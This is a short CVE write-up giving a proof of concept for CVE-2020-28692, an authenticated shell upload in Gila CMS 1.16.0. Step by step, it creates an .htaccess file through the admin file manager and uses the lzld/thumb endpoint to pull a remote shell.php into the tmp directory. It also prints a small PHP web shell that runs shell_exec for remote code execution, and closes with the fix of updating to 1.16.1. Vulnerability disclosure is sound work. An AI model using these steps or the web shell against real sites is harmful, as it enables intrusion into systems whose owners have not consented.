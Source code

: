 ```yaml
---
layout: post
title:  "Gila-CMS-1.16.0-shell-upload (CVE-2020-28692)"
date:   2020-11-17

categories: Writeup, CVE
---
```


Author: jkana

# POC

1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** .For example

```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess** :

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example

```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/** .

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

# How to fix

Update to **Gila CMS 1.16.1**

# shell.php

```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```

